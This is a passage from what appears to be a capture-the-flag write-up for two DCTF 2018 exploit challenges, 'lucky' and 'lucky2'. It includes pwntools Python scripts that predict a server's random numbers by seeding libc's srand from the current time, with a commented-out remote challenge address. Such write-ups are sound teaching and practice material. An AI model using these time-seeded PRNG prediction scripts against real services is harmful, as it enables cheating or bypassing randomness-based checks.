 ```python

p = process('./lucky')
#p = remote('167.99.143.206', 65031)
p.recvuntil('What is your name?')
p.sendline(name)

for n in range(100):
    print p.recvuntil('/100]')
    i = libc.rand()
    p.sendline(str(i))

print p.recvall()
p.close()
```

# Even more lucky?
### Exploit: 50p

[lucky2](https://dctf.def.camp/dctf-18-quals-81249812/lucky2)

Very similar to the previous lucky, but this time it calls time(NULL) / 10
to seed srand(). No overwrite needed. We just need to have the same time as
the server (I used NTP to set my time).

```python
#!/usr/bin/env python2

from ctypes import *
from pwn import *
context.arch='amd64'

name = 'albert'

libc = cdll.LoadLibrary('libc.so.6')
t = libc.time(None) // 10
libc.srand(t)

p = process('./lucky2')
#p = remote('167.99.143.206', 65032)
p.recvuntil('What is your name?')
p.sendline(name)

for n in range(100):
    print p.recvuntil('/100]')
    i = libc.rand()
    p.sendline(str(i))

print p.recvall()
p.close()
```
